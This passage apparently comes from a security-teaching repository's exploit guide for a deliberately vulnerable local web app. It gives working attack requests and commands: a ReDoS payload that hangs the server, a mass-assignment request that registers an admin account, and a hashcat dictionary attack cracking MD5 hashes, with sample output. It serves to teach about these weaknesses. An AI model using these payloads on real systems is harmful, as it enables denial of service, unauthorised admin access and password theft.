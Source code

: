 ### CWE-1333: Inefficient Regular Expression Complexity (’Regex Attack’)

1. Send a POST request to `http://localhost:3001/api/register` like this one :
    ```http
    POST /api/register HTTP/1.1
    Host: localhost:3001
    Content-Type: application/json

    {
        "name": "^(([a-z])+.)+[A-Z]([a-z])+$",
        "username": "prova9@example.org",
        "password":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa!!",
        "admin": false 
    }
    ```
2. We can now see that the server will not respond to our request or any future ones. the only way to resume normal operation is to shut down and restart the server from the command line.

### CWE-915: Improperly Controlled Modification of Dynamically-Determined Object Attributes
1. Send a POST request to `http://localhost:3001/api/register` like this one :
    ```http
    POST /api/register HTTP/1.1
    Host: localhost:3001
    Content-Type: application/json

    {
        "name": "test",
        "username": "test@example.org",
        "password": "password",
        "admin": true 
    }   
    ```
2. The server will create a new account by registering it as admin.

### CWE-328: Use of Weak Hash

1. Get the password hash, in this case trivially by looking at the database
2. Use tools such as [hashcat](https://linux.how2shout.com/how-to-install-hashcat-on-ubuntu-22-04-20-04-lts/) to recover the original password. 
3. Download a list of known passwords such as in this case [rockyou.txt](https://github.com/praetorian-inc/Hob0Rules/blob/master/wordlists/rockyou.txt.gz) and save the hash password in a file like [passHash.txt](https://github.com/Novant8/svt-web-demonstrator/blob/master/exploit/passHash.txt). Run the following command to implement a dictionary attack:
    ```shell
    hashcat -m 0 -a 0 passHash.txt rockyou.txt
    ```
4. You should get an output like this:
    ``` 
    Dictionary cache built :
    * Filename ..: rockyou . txt
    * Passwords .: 14344391
    * Bytes .....: 139921497
    * Keyspace ..: 14344384
    * Runtime ...: 1 sec
    5 f4dcc3b5aa765d61d8327deb882cf99 : password
    Session ..........: hashcat
    Status ...........: Cracked
    Hash . Mode ........: 0 ( MD5 )
    Hash . Target ......: 5 f4dcc3b5aa765d61d8327deb882cf99
    Time . Started .....: Mon Feb 12 17:20:21 2024 (0 secs )
    Time . Estimated ...: Mon Feb 12 17:20:21 2024 (0 secs )
    Kernel . Feature ...: Pure Kernel